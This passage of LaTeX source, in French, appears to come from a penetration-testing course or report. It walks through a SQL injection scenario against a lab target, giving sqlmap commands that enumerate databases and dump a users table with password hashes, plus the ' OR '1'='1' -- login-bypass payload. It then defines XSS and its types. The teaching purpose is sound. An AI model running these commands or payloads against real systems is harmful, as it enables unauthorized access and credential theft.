 \begin{boxalert}
\textbf{Options critiques SQLMap :} \texttt{--batch} est indispensable
en automatisation (évite les blocages sur prompts interactifs).
\texttt{--level} (1--5) et \texttt{--risk} (1--3) augmentent la couverture
des tests mais aussi l'agressivité. Ne jamais utiliser \texttt{--level=5
--risk=3} sur des cibles de production sans accord explicite du client.
\end{boxalert}

\begin{boxlizbiz}
\textbf{Exploitation SQLi LiZbiZ, Scénario complet :}
\begin{lstlisting}[language=bash]
# 1. Détection de la vulnérabilité
sqlmap -u "http://203.0.113.10/login?id=1" --batch --dbs
# Résultat : base 'lizbiz_db' détectée (MySQL 5.7)

# 2. Extraction de la table utilisateurs
sqlmap -u "http://203.0.113.10/login?id=1" --batch \
       -D lizbiz_db -T users -C username,password,email --dump
# Résultat : 47 comptes extraits dont admin:$2y$10$hash...

# 3. Connexion administrative via bypass d'authentification
# Payload manuel sur le formulaire : ' OR '1'='1' --
# Accès au panneau d'administration confirmé
\end{lstlisting}
\textbf{Impact  :} 9.8 / Critique —
AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H.
\textbf{MITRE :} T1190, T1078.
\end{boxlizbiz}

\subsection{Cross-Site Scripting (XSS)}
\label{subsec:xss}

\begin{boxdef}
\textbf{XSS :} Injection de code JavaScript malveillant dans des pages web
consultées par d'autres utilisateurs, permettant le vol de cookies de session,
la redirection vers des pages de phishing, ou l'exécution d'actions au nom
de la victime.
\end{boxdef}

\textbf{Types de XSS :}

\begin{itemize}
    \item \textbf{Reflected XSS :} Le payload est injecté dans une requête
          \sigle{GET}/\sigle{POST} et immédiatement réfléchi dans la réponse
          de la page, la victime doit cliquer sur un lien piégé.
          \textbf{MITRE T1059.007.}

    \item \textbf{Stored XSS (persistant) :} Le payload est stocké en base
          de données (commentaire, message, profil) et exécuté à chaque
          consultation de la page, le plus dangereux.

    \item \textbf{DOM-Based XSS :} La vulnérabilité est dans le code JavaScript
          côté client, le payload modifie le \sigle{DOM} sans passer par le
          serveur.
\end{itemize}

